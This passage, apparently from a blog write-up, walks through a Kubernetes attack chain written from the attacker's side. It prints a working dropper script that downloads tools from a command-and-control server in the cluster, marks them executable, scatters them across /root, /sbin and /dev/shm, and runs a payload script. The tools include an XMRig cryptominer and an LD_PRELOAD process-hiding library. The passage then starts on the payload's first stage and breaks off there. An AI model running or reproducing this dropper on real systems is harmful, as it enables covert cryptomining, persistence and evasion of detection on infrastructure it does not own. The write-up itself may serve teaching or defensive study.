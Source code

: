 ```bash
curl -s http://payload-server.default.svc.cluster.local:8080/config.json -o config.json || echo "Failed to download config.json"
curl -s http://payload-server.default.svc.cluster.local:8080/noumt -o noumt || echo "Failed to download noumt"

# Set permissions
chmod +x xmx2 www cc.py pt run.sh noumt

# Copy files to their destinations
cp run.sh /root/run.sh
mkdir -p /sbin
cp config.json /sbin/config.json 2>/dev/null
cp xmx2.so /tmp/payloads/xmx2.so 2>/dev/null
cp noumt /dev/shm/noumt 2>/dev/null

# Execute the attack
echo "Executing run.sh..."
bash /root/run.sh || echo "Failed to execute run.sh, check logs"

# Keep container running
echo "Dropper script completed, keeping container alive"
tail -f /dev/null 
```

the dropper creates a temporary directory for malicious payloads. attacks like to use temporary directories to evade detection.

it then downloads several attack tools from our C2 (with the `-s` flag to hide the download progress), with each serving a specific purpose. 

`xmx2` is a process hiding tool (a XMRig cryptominer executable). `xmx2.so` is a shared library for process hiding via `LD_PRELOAD`, and so on. the tools themselves will probably be the subject of another post. 

the dropper makes all these tools executable and distributes them accross the filesystem (`/root/`, `/sbin/`, `/dev/shm/`). it keeps the pod running with `tail -f /dev/null`. 


### payload

`run.sh` is a much larger script that performs a bunch of things. we'll go through each stage of the attack here.

```bash
export HOME=/root
export LC_ALL=C
export PATH=$PATH:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/games:/usr/local/games
```

this sets our home directory to `/root/` and configures the locale and PATH variables to make sure commands can be found regardless of environment settings.

```bash
DIR_ARRAY=("/tmp" "/var/tmp" "/dev/shm" "/bin" "/sbin" "/usr/bin" "/usr/sbin")
```
